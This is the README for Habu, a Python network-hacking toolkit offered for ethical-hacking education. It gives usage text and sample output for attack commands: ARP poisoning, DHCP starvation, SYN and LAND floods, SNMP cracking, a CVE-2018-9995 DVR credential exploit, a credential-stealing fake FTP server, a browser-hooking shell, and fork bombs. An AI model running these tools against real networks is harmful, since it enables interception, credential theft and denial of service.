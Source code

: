 
Habu: Python Network Hacking Toolkit
====================================

I'm developing Habu to teach (and learn) some concepts about Python and
Network Hacking.

These are basic functions that help with some tasks for Ethical Hacking
and Penetration Testing.

Most of them are related with networking, and the implementations are
intended to be understandable for who wants to read the source code and
learn from that.

Some techniques implemented in the current version are:


* ARP Poisoning
* ARP Sniffing
* DHCP Discover
* DHCP Starvation
* Fake FTP Server
* LAND Attack
* SNMP Cracking
* Subdomains Identification
* SSL/TLS Certificate Cloner
* SYN Flooding
* TCP Flags Analysis
* TCP ISN Analysis
* TCP Port Scan
* Username check on social networks
* Virtual Hosts Identification
* Web Techonologies Identification

Usage Videos
------------

The following Youtube Playlist has videos that shows the installation
and usage:

https://www.youtube.com/watch?v=rgp9seLLyqE&list=PL4HZnX8VnFXqSvNw7x-bXOn0dgxNdfnVD

Telegram Group
--------------

If you want to discuss some Habu features, possible improvements, etc,
you can use the Habu Telegram Group: https://t.me/python_habu

Issues and pull requests must be sent to github repo:
https://github.com/portantier/habu

Installation
------------

**Kali Linux:**

You can install the package created for Kali Linux. See
https://github.com/portantier/habu/releases

**Python Package (PyPi):**

Habu is on PyPi, so you can install it directly with pip:

.. code-block::

   $ pip3 install habu

Dependencies
------------

Habu requires Python3 and the following packages:


* beautifulsoup4
* click
* cryptography
* dnspython
* lxml
* prompt_toolkit
* pygments
* regex
* requests
* requests-cache
* scapy
* websockets
* matplotlib (Optional, only needed if you want to make some graphs)

Get Help
--------

All the commands implement the option '--help', that shows the help,
arguments, options, and default values.

Verbose Mode
------------

Almost all commands implement the verbose mode with the '-v' option.
This can give you some extra info about what habu is doing.

Commands Index
--------------


* `arp.ping <#habuarpping>`_
* `arp.poison <#habuarppoison>`_
* `arp.sniff <#habuarpsniff>`_
* `asydns <#habuasydns>`_
* `b64 <#habub64>`_
* `certclone <#habucertclone>`_
* `config.del <#habuconfigdel>`_
* `config <#habuconfig>`_
* `config.set <#habuconfigset>`_
* `contest <#habucontest>`_
* `crack.luhn <#habucrackluhn>`_
* `crack.snmp <#habucracksnmp>`_
* `crtsh <#habucrtsh>`_
* `cve.2018.9995 <#habucve20189995>`_
* `cymon.ip <#habucymonip>`_
* `cymon.ip.timeline <#habucymoniptimeline>`_
* `decrypt.gppref <#habudecryptgppref>`_
* `dhcp.discover <#habudhcpdiscover>`_
* `dhcp.starvation <#habudhcpstarvation>`_
* `eicar <#habueicar>`_
* `extract.email <#habuextractemail>`_
* `extract.hostname <#habuextracthostname>`_
* `extract.ipv4 <#habuextractipv4>`_
* `fernet.genkey <#habufernetgenkey>`_
* `fernet <#habufernet>`_
* `forkbomb <#habuforkbomb>`_
* `gateway.find <#habugatewayfind>`_
* `hasher <#habuhasher>`_
* `ip2asn <#habuip2asn>`_
* `ip <#habuip>`_
* `isn <#habuisn>`_
* `jshell <#habujshell>`_
* `karma.bulk <#habukarmabulk>`_
* `karma <#habukarma>`_
* `land <#habuland>`_
* `nc <#habunc>`_
* `nmap.excluded <#habunmapexcluded>`_
* `nmap.open <#habunmapopen>`_
* `nmap.ports <#habunmapports>`_
* `ping <#habuping>`_
* `protoscan <#habuprotoscan>`_
* `server.ftp <#habuserverftp>`_
* `shodan.open <#habushodanopen>`_
* `shodan <#habushodan>`_
* `synflood <#habusynflood>`_
* `tcpflags <#habutcpflags>`_
* `tcpscan <#habutcpscan>`_
* `traceroute <#habutraceroute>`_
* `usercheck <#habuusercheck>`_
* `vhosts <#habuvhosts>`_
* `virustotal <#habuvirustotal>`_
* `web.report <#habuwebreport>`_
* `web.screenshot <#habuwebscreenshot>`_
* `web.tech <#habuwebtech>`_
* `whois.domain <#habuwhoisdomain>`_
* `whois.ip <#habuwhoisip>`_
* `xor <#habuxor>`_

habu.arp.ping
-------------

.. code-block::

   Usage: habu.arp.ping [OPTIONS] IP

     Send ARP packets to check if a host it's alive in the local network.

     Example:

     # habu.arp.ping 192.168.0.1
     Ether / ARP is at a4:08:f5:19:17:a4 says 192.168.0.1 / Padding

   Options:
     -i TEXT  Interface to use
     -v       Verbose output
     --help   Show this message and exit.

habu.arp.poison
---------------

.. code-block::

   Usage: habu.arp.poison [OPTIONS] VICTIM1 VICTIM2

     Send ARP 'is-at' packets to each victim, poisoning their ARP tables for
     send the traffic to your system.

     Note: If you want a full working Man In The Middle attack, you need to
     enable the packet forwarding on your operating system to act like a
     router. You can do that using:

     # echo 1 > /proc/sys/net/ipv4/ip_forward

     Example:

     # habu.arpoison 192.168.0.1 192.168.0.77
     Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
     Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.70
     Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
     ...

   Options:
     -i TEXT  Interface to use
     -v       Verbose
     --help   Show this message and exit.

habu.arp.sniff
--------------

.. code-block::

   Usage: habu.arp.sniff [OPTIONS]

     Listen for ARP packets and show information for each device.

     Columns: Seconds from last packet | IP | MAC | Vendor

     Example:

     1   192.168.0.1     a4:08:f5:19:17:a4   Sagemcom Broadband SAS
     7   192.168.0.2     64:bc:0c:33:e5:57   LG Electronics (Mobile Communications)
     2   192.168.0.5     00:c2:c6:30:2c:58   Intel Corporate
     6   192.168.0.7     54:f2:01:db:35:58   Samsung Electronics Co.,Ltd

   Options:
     -i TEXT  Interface to use
     --help   Show this message and exit.

habu.asydns
-----------

.. code-block::

   Usage: habu.asydns [OPTIONS]

     Requests a DNS domain name based on public and private RSA keys using the
     AsyDNS protocol https://github.com/portantier/asydns

     Example:

     $ habu.asydns -v
     Generating RSA key ...
     Loading RSA key ...
     {
         "ip": "181.31.41.231",
         "name": "07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org"
     }

     $ dig +short 07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org
     181.31.41.231

   Options:
     -u TEXT  API URL
     -g       Force the generation of a new key pair
     -r       Revoke the public key
     -v       Verbose output
     --help   Show this message and exit.

habu.b64
--------

.. code-block::

   Usage: habu.b64 [OPTIONS] [F]

     Encodes or decode data in base64, just like the command base64.

     $ echo awesome | habu.b64
     YXdlc29tZQo=

     $ echo YXdlc29tZQo= | habu.b64 -d
     awesome

   Options:
     -d      decode instead of encode
     --help  Show this message and exit.

habu.certclone
--------------

.. code-block::

   Usage: habu.certclone [OPTIONS] HOSTNAME PORT KEYFILE CERTFILE

     Connect to an SSL/TLS server, get the certificate and generate a
     certificate with the same options and field values.

     Note: The generated certificate is invalid, but can be used for social
     engineering attacks

     Example:

     $ habu.certclone www.google.com 443 /tmp/key.pem /tmp/cert.pem

   Options:
     --copy-extensions  Copy certificate extensions (default: False)
     --expired          Generate an expired certificate (default: False)
     -v                 Verbose
     --help             Show this message and exit.

habu.config.del
---------------

.. code-block::

   Usage: habu.config.del [OPTIONS] KEY

     Delete a KEY from the configuration.

     Note: By default, KEY is converted to uppercase.

     Example:

     $ habu.config.del DNS_SERVER

   Options:
     --help  Show this message and exit.

habu.config
-----------

.. code-block::

   Usage: habu.config [OPTIONS]

     Show the current config.

     Note: By default, the options with 'KEY' in their name are shadowed.

     Example:

     $ habu.config
     {
         "DNS_SERVER": "8.8.8.8",
         "FERNET_KEY": "*************"
     }

   Options:
     --show-keys       Show also the key values
     --option TEXT...  Write to the config(KEY VALUE)
     --help            Show this message and exit.

habu.config.set
---------------

.. code-block::

   Usage: habu.config.set [OPTIONS] KEY VALUE

     Set VALUE to the config KEY.

     Note: By default, KEY is converted to uppercase.

     Example:

     $ habu.config.set DNS_SERVER 8.8.8.8

   Options:
     --help  Show this message and exit.

habu.contest
------------

.. code-block::

   Usage: habu.contest [OPTIONS]

     Try to connect to various services and check if can reach them using your
     internet connection.

     Example:

     $ habu.contest
     IP:    True
     DNS:   True
     FTP:   True
     SSH:   True
     HTTP:  True
     HTTPS: True

   Options:
     --help  Show this message and exit.

habu.crack.luhn
---------------

.. code-block::

   Usage: habu.crack.luhn [OPTIONS] NUMBER

     Having known values for a Luhn validated number, obtain the possible
     unknown numbers.

     Numbers that use the Luhn algorithm for validation are Credit Cards, IMEI,
     National Provider Identifier in the United States, Canadian Social
     Insurance Numbers, Israel ID Numbers and Greek Social Security Numbers
     (ΑΜΚΑ).

     The '-' characters are ignored.

     Define the missing numbers with the 'x' character.

     Reference: https://en.wikipedia.org/wiki/Luhn_algorithm

     Example:

     $ habu.crack.luhn 4509-xxxx-3160-6445

   Options:
     --help  Show this message and exit.

habu.crack.snmp
---------------

.. code-block::

   Usage: habu.crack.snmp [OPTIONS] IP

     Launches snmp-get queries against an IP, and tells you when finds a valid
     community string (is a simple SNMP cracker).

     The dictionary used is the distributed with the onesixtyone tool
     https://github.com/trailofbits/onesixtyone

     Example:

     # habu.crack.snmp 179.125.234.210
     Community found: private
     Community found: public

     Note: You can also receive messages like \<UNIVERSAL\> \<class
     'scapy.asn1.asn1.ASN1\_Class\_metaclass'\>, I don't know how to supress
     them for now.

   Options:
     -p INTEGER  Port to use
     -c TEXT     Community (default: list of most used)
     -s          Stop after first match
     -v          Verbose
     --help      Show this message and exit.

habu.crtsh
----------

.. code-block::

   Usage: habu.crtsh [OPTIONS] DOMAIN

     Downloads the certificate transparency logs for a domain and check with
     DNS queries if each subdomain exists.

     Uses multithreading to improve the performance of the DNS queries.

     Example:

     $ sudo habu.crtsh securetia.com
     [
         "karma.securetia.com.",
         "www.securetia.com."
     ]

   Options:
     -c      Disable cache
     -n      Disable DNS subdomain validation
     -v      Verbose output
     --help  Show this message and exit.

habu.cve.2018.9995
------------------

.. code-block::

   Usage: habu.cve.2018.9995 [OPTIONS] IP

     Exploit the CVE-2018-9995 vulnerability, present on various DVR systems.

     Note: Based on the original code from Ezequiel Fernandez (@capitan_alfa).

     Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9995

     Example:

     $ python habu.cve.2018-9995 82.202.102.42
     [
         {
             "uid": "admin",
             "pwd": "securepassword",
             "role": 2,
             "enmac": 0,
             "mac": "00:00:00:00:00:00",
             "playback": 4294967295,
             "view": 4294967295,
             "rview": 4294967295,
             "ptz": 4294967295,
             "backup": 4294967295,
             "opt": 4294967295
         }
     ]

   Options:
     -p INTEGER  Port to use (default: 80)
     -v          Verbose
     --help      Show this message and exit.

habu.cymon.ip
-------------

.. code-block::

   Usage: habu.cymon.ip [OPTIONS] IP

     Simple cymon API client.

     Prints the JSON result of a cymon IP query.

     Example:

     $ habu.cymon.ip 8.8.8.8
     {
         "addr": "8.8.8.8",
         "created": "2015-03-23T12:03:42Z",
         "updated": "2018-08-24T04:06:07Z",
         "sources": [
             "safeweb.norton.com",
             "botscout.com",
             "virustotal.com",
             "phishtank"
         ],
         "events": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/events",
         "domains": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/domains",
         "urls": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/urls"
     }

   Options:
     -c           Disable cache
     -v           Verbose output
     -o FILENAME  Output file (default: stdout)
     --help       Show this message and exit.

habu.cymon.ip.timeline
----------------------

.. code-block::

   Usage: habu.cymon.ip.timeline [OPTIONS] IP

     Simple cymon API client.

     Prints the JSON result of a cymon IP timeline query.

     Example:

     $ habu.cymon.ip.timeline 8.8.8.8
     {
         "timeline": [
             {
                 "time_label": "Aug. 18, 2018",
                 "events": [
                     {
                         "description": "Posted: 2018-08-18 23:37:39 CEST IDS Alerts: 0 URLQuery Alerts: 1 ...",
                         "created": "2018-08-18T21:39:07Z",
                         "title": "Malicious activity reported by urlquery.net",
                         "details_url": "http://urlquery.net/report/b1393866-9b1f-4a8e-b02b-9636989050f3",
                         "tag": "malicious activity"
                     }
                 ]
             },
             ...

   Options:
     -c           Disable cache
     -v           Verbose output
     -o FILENAME  Output file (default: stdout)
     -p           Pretty output
     --help       Show this message and exit.

habu.decrypt.gppref
-------------------

.. code-block::

   Usage: habu.decrypt.gppref [OPTIONS] PASSWORD

     Decrypt the password of local users added via Windows 2008 Group Policy
     Preferences.

     This value is the 'cpassword' attribute embedded in the Groups.xml file,
     stored in the domain controller's Sysvol share.

     Example:

     # habu.decrypt.gpp AzVJmXh/J9KrU5n0czX1uBPLSUjzFE8j7dOltPD8tLk
     testpassword

   Options:
     --help  Show this message and exit.

habu.dhcp.discover
------------------

.. code-block::

   Usage: habu.dhcp.discover [OPTIONS]

     Send a DHCP request and show what devices has replied.

     Note: Using '-v' you can see all the options (like DNS servers) included
     on the responses.

     # habu.dhcp_discover
     Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.5:bootpc / BOOTP / DHCP

   Options:
     -i TEXT     Interface to use
     -t INTEGER  Time (seconds) to wait for responses
     -v          Verbose output
     --help      Show this message and exit.

habu.dhcp.starvation
--------------------

.. code-block::

   Usage: habu.dhcp.starvation [OPTIONS]

     Send multiple DHCP requests from forged MAC addresses to fill the DHCP
     server leases.

     When all the available network addresses are assigned, the DHCP server
     don't send responses.

     So, some attacks, like DHCP spoofing, can be made.

     # habu.dhcp_starvation
     Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.6:bootpc / BOOTP / DHCP
     Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.7:bootpc / BOOTP / DHCP
     Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.8:bootpc / BOOTP / DHCP

   Options:
     -i TEXT     Interface to use
     -t INTEGER  Time (seconds) to wait for responses
     -s INTEGER  Time (seconds) between requests
     -v          Verbose output
     --help      Show this message and exit.

habu.eicar
----------

.. code-block::

   Usage: habu.eicar [OPTIONS]

     Print the EICAR test string that can be used to test antimalware engines.

     More info: http://www.eicar.org/86-0-Intended-use.html

     Example:

     $ habu.eicar
     X5O!P%@AP[4\XZP54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*

   Options:
     --help  Show this message and exit.

habu.extract.email
------------------

.. code-block::

   Usage: habu.extract.email [OPTIONS] [INFILE]

     Extract email addresses from a file or stdin.

     Example:

     $ cat /var/log/auth.log | habu.extract.email
     john@securetia.com
     raven@acmecorp.net
     nmarks@fimax.com

   Options:
     -v      Verbose output
     -j      JSON output
     --help  Show this message and exit.

habu.extract.hostname
---------------------

.. code-block::

   Usage: habu.extract.hostname [OPTIONS] [INFILE]

     Extract hostnames from a file or stdin.

     Example:

     $ cat /var/log/some.log | habu.extract.hostname
     www.google.com
     ibm.com
     fileserver.redhat.com

   Options:
     -c      Check if hostname resolves
     -v      Verbose output
     -j      JSON output
     --help  Show this message and exit.

habu.extract.ipv4
-----------------

.. code-block::

   Usage: habu.extract.ipv4 [OPTIONS] [INFILE]

     Extract IPv4 addresses from a file or stdin.

     Example:

     $ cat /var/log/auth.log | habu.extract.ipv4
     172.217.162.4
     23.52.213.96
     190.210.43.70

   Options:
     --json  JSON output
     -v      Verbose output
     --help  Show this message and exit.

habu.fernet.genkey
------------------

.. code-block::

   Usage: habu.fernet.genkey [OPTIONS]

     Generate a new Fernet Key, optionally write it to ~/.habu.json

     Example:

     $ habu.fernet.genkey
     xgvWCIvjwe9Uq7NBvwO796iI4dsGD623QOT9GWqnuhg=

   Options:
     -w      Write this key to ~/.habu.json
     --help  Show this message and exit.

habu.fernet
-----------

.. code-block::

   Usage: habu.fernet [OPTIONS]

     Fernet cipher.

     Uses AES-128-CBC with HMAC

     Note: You must use a key to cipher with Fernet.

     Use the -k paramenter or set the FERNET_KEY configuration value.

     The keys can be generated with the command habu.fernet.genkey

     Reference: https://github.com/fernet/spec/blob/master/Spec.md

     Example:

     $ "I want to protect this string" | habu.fernet
     gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA...

     $ echo gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA... | habu.fernet -d
     I want to protect this string

   Options:
     -k TEXT        Key
     -d             Decrypt instead of encrypt
     --ttl INTEGER  Time To Live for timestamp verification
     -i FILENAME    Input file (default: stdin)
     -o FILENAME    Output file (default: stdout)
     --help         Show this message and exit.

habu.forkbomb
-------------

.. code-block::

   Usage: habu.forkbomb [OPTIONS] [bash|batch|c|haskell|perl|php|python|ruby]

     A shortcut to remember how to use fork bombs in different languages.

     Currently supported: bash, batch, c, haskell, perl, php, python, ruby.

     Example:

     $ habu.forkbomb c
     #include <unistd.h>
     int main()
     {
         while(1)
         {
             fork();
         }
         return 0;
     }

   Options:
     --help  Show this message and exit.

habu.gateway.find
-----------------

.. code-block::

   Usage: habu.gateway.find [OPTIONS] NETWORK

     Try to reach an external IP using any host has a router.

     Useful to find routers in your network.

     First, uses arping to detect alive hosts and obtain MAC addresses.

     Later, create a network packet and put each MAC address as destination.

     Last, print the devices that forwarded correctly the packets.

     Example:

     # habu.find.gateway 192.168.0.0/24
     192.168.0.1 a4:08:f5:19:17:a4 Sagemcom
     192.168.0.7 b0:98:2b:5d:22:70 Sagemcom
     192.168.0.8 b0:98:2b:5d:1f:e8 Sagemcom

   Options:
     -i TEXT                Interface to use
     --host TEXT            Host to reach (default: 8.8.8.8)
     --tcp                  Use TCP instead of ICMP
     --dport INTEGER RANGE  Destination port for TCP (default: 80)
     --timeout INTEGER      Timeout in seconds (default: 5)
     -v                     Verbose output
     --help                 Show this message and exit.

habu.hasher
-----------

.. code-block::

   Usage: habu.hasher [OPTIONS] [F]

     Computes various hashes for the input data, that can be a file or a
     stream.

     Example:

     $ habu.hasher README.rst
992a833cd162047daaa6a236b8ac15ae

     You can also specify which algorithm to use. In such case, the output is
     only the value of the calculated hash:

     $ habu.hasher -a md5 README.rst
     992a833cd162047daaa6a236b8ac15ae README.rst

   Options:
     -a [md5|sha1|sha256|sha512|ripemd160|whirlpool]
                                     Only this algorithm (Default: all)
     --help                          Show this message and exit.

habu.ip2asn
-----------

.. code-block::

   Usage: habu.ip2asn [OPTIONS] IP

     Use Team Cymru ip2asn service to get information about a public IPv4/IPv6.

     Reference: https://www.team-cymru.com/IP-ASN-mapping.html

     $ habu.ip2asn 8.8.8.8
     {
         "asn": "15169",
         "net": "8.8.8.0/24",
         "cc": "US",
         "rir": "ARIN",
         "asname": "GOOGLE - Google LLC, US",
         "country": "United States"
     }

   Options:
     --help  Show this message and exit.

habu.ip
-------

.. code-block::

   Usage: habu.ip [OPTIONS]

     Print your current public IP based on the response from
     https://api.ipify.org

     Example:

     $ habu.ip
     182.26.32.246

   Options:
     --help  Show this message and exit.

habu.isn
--------

.. code-block::

   Usage: habu.isn [OPTIONS] IP

     Create TCP connections and print the TCP initial sequence numbers for each
     one.

     $ sudo habu.isn -c 5 www.portantier.com
     1962287220
     1800895007
     589617930
     3393793979
     469428558

     Note: You can get a graphical representation (needs the matplotlib
     package) using the '-g' option to better understand the randomness.

   Options:
     -p INTEGER  Port to use (default: 80)
     -c INTEGER  How many packets to send/receive (default: 5)
     -i TEXT     Interface to use
     -g          Graph (requires matplotlib)
     -v          Verbose output
     --help      Show this message and exit.

habu.jshell
-----------

.. code-block::

   Usage: habu.jshell [OPTIONS]

     Control a web browser through Websockets.

     Bind a port (default: 3333) and listen for HTTP connections.

     On connection, send a JavaScript code that opens a WebSocket that can be
     used to send commands to the connected browser.

     You can write the commands directly in the shell, or use plugins, that are
     simply external JavaScript files.

     Using habu.jshell you can completely control a web browser.

     Reference: https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API

     Example:

     $ habu.jshell
     >> Listening on 192.168.0.10:3333. Waiting for a victim connection.
     >> HTTP Request received from 192.168.0.15. Sending hookjs
     >> Connection from 192.168.0.15
     $ _sessions
     0 * 192.168.0.15:33432 Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
     $ _info
     {
         "user-agent": "Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0",
         "location": "http://192.168.0.10:3333/",
         "java-enabled": false,
         "platform": "Linux x86_64",
         "app-code-name": "Mozilla",
         "app-name": "Netscape",
         "app-version": "5.0 (X11)",
         "cookie-enabled": true,
         "language": "es-AR",
         "online": true
     }
     $ document.location
     http://192.168.0.10:3333/

   Options:
     -v          Verbose
     -i TEXT     IP to listen on
     -p INTEGER  Port to listen on
     --help      Show this message and exit.

habu.karma.bulk
---------------

.. code-block::

   Usage: habu.karma.bulk [OPTIONS] [INFILE]

     Show which IP addresses are inside blacklists using the Karma online
     service.

     Example:

     $ cat /var/log/auth.log | habu.extract.ipv4 | habu.karma.bulk
     172.217.162.4   spamhaus_drop,alienvault_spamming
     23.52.213.96    CLEAN
     190.210.43.70   alienvault_malicious

   Options:
     --json  JSON output
     --bad   Show only entries in blacklists
     -v      Verbose output
     --help  Show this message and exit.

habu.karma
----------

.. code-block::

   Usage: habu.karma [OPTIONS] HOST

     Use the Karma service https://karma.securetia.com to check an IP against
     various Threat Intelligence / Reputation lists.

     $ habu.karma www.google.com
     www.google.com -> 64.233.190.99
     [
         "hphosts_fsa",
         "hphosts_psh",
         "hphosts_emd"
     ]

     Note: You can use the hostname or the IP of the host to query.

   Options:
     --help  Show this message and exit.

habu.land
---------

.. code-block::

   Usage: habu.land [OPTIONS] IP

     This command implements the LAND attack, that sends packets forging the
     source IP address to be the same that the destination IP. Also uses the
     same source and destination port.

     The attack is very old, and can be used to make a Denial of Service on old
     systems, like Windows NT 4.0. More information here:
     https://en.wikipedia.org/wiki/LAND

     # sudo habu.land 172.16.0.10
     ............

     Note: Each dot (.) is a sent packet. You can specify how many packets send
     with the '-c' option. The default is never stop. Also, you can specify the
     destination port, with the '-p' option.

   Options:
     -c INTEGER  How many packets send (default: infinit)
     -p INTEGER  Port to use (default: 135)
     -i TEXT     Interface to use
     -v          Verbose
     --help      Show this message and exit.

habu.nc
-------

.. code-block::

   Usage: habu.nc [OPTIONS] HOST PORT

     Some kind of netcat/ncat replacement.

     The execution emulates the feeling of this popular tools.

     Example:

     $ habu.nc --crlf www.portantier.com 80
     Connected to 45.77.113.133 80
     HEAD / HTTP/1.0

     HTTP/1.0 301 Moved Permanently
     Date: Thu, 26 Jul 2018 21:10:51 GMT
     Server: OpenBSD httpd
     Connection: close
     Content-Type: text/html
     Content-Length: 443
     Location: https://www.portantier.com/

   Options:
     --family [4|6|46]            IP Address Family
     --ssl                        Enable SSL
     --crlf                       Use CRLF for EOL sequence
     --protocol [tcp|udp]         Layer 4 protocol to use
     --source-ip TEXT             Source IP to use
     --source-port INTEGER RANGE  Source port to use
     --help                       Show this message and exit.

habu.nmap.excluded
------------------

.. code-block::

   Usage: habu.nmap.excluded [OPTIONS]

     Prints a random port that is not present on nmap-services file so is not
     scanned automatically by nmap.

     Useful for services like SSH or RDP, that are continuously scanned on
     their default ports.

     Example:

     # habu.nmap.excluded
     58567

   Options:
     -l INTEGER RANGE  Lowest port to consider
     -h INTEGER RANGE  Highest port to consider
     --help            Show this message and exit.

habu.nmap.open
--------------

.. code-block::

   Usage: habu.nmap.open [OPTIONS] SCANFILE

     Read an nmap report and print the open ports.

     Print the ports that has been resulted open reading the generated nmap
     output.

     You can use it to rapidly reutilize the port list for the input of other
     tools.

     Supports and detects the 3 output formats (nmap, gnmap and xml)

     Example:

     # habu.nmap.open portantier.nmap
     22,80,443

   Options:
     -p [tcp|udp|sctp]  The protocol (default=tcp)
     --help             Show this message and exit.

habu.nmap.ports
---------------

.. code-block::

   Usage: habu.nmap.ports [OPTIONS] SCANFILE

     Read an nmap report and print the tested ports.

     Print the ports that has been tested reading the generated nmap output.

     You can use it to rapidly reutilize the port list for the input of other
     tools.

     Supports and detects the 3 output formats (nmap, gnmap and xml)

     Example:

     # habu.nmap.ports portantier.nmap
     21,22,23,80,443

   Options:
     -p [tcp|udp|sctp]  The protocol (default=tcp)
     --help             Show this message and exit.

habu.ping
---------

.. code-block::

   Usage: habu.ping [OPTIONS] IP

     The classic ping tool that send ICMP echo requests.

     # habu.ping 8.8.8.8
     IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
     IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
     IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
     IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding

   Options:
     -i TEXT     Wich interface to use (default: auto)
     -c INTEGER  How many packets send (default: infinit)
     -t INTEGER  Timeout in seconds (default: 2)
     -w INTEGER  How many seconds between packets (default: 1)
     -v          Verbose
     --help      Show this message and exit.

habu.protoscan
--------------

.. code-block::

   Usage: habu.protoscan [OPTIONS] IP

     Send IP packets with different protocol field content to guess what layer
     4 protocols are available.

     The output shows which protocols doesn't generate a 'protocol-unreachable'
     ICMP response.

     Example:

     $ sudo python cmd_ipscan.py 45.77.113.133
     1   icmp
     2   igmp
     4   ipencap
     6   tcp
     17  udp
     41  ipv6
     47  gre
     50  esp
     51  ah
     58  ipv6_icmp
     97  etherip
     112 vrrp
     115 l2tp
     132 sctp
     137 mpls_in_ip

   Options:
     -i TEXT     Interface to use
     -t INTEGER  Timeout for each probe (default: 2 seconds)
     --all       Probe all protocols (default: Defined in /etc/protocols)
     -v          Verbose output
     --help      Show this message and exit.

habu.server.ftp
---------------

.. code-block::

   Usage: habu.server.ftp [OPTIONS]

     Basic fake FTP server, whith the only purpose to steal user credentials.

     Supports SSL/TLS.

     Example:

     # sudo habu.server.ftp --ssl --ssl-cert /tmp/cert.pem --ssl-key /tmp/key.pem
     Listening on port 21
     Accepted connection from ('192.168.0.27', 56832)
     Credentials collected from 192.168.0.27! fabian 123456

   Options:
     -a TEXT          Address to bind (default: all)
     -p INTEGER       Which port to use (default: 21)
     --ssl            Enable SSL/TLS (default: False)
     --ssl-cert TEXT  SSL/TLS Cert file
     --ssl-key TEXT   SSL/TLS Key file
     -v               Verbose
     --help           Show this message and exit.

habu.shodan.open
----------------

.. code-block::

   Usage: habu.shodan.open [OPTIONS] IP

     Output the open ports for an IP against shodan (nmap format).

     Example:

     $ habu.shodan.open 8.8.8.8
     T:53,U:53

   Options:
     -c           Disable cache
     -j           Output in JSON format
     -x           Output an nmap command to scan open ports
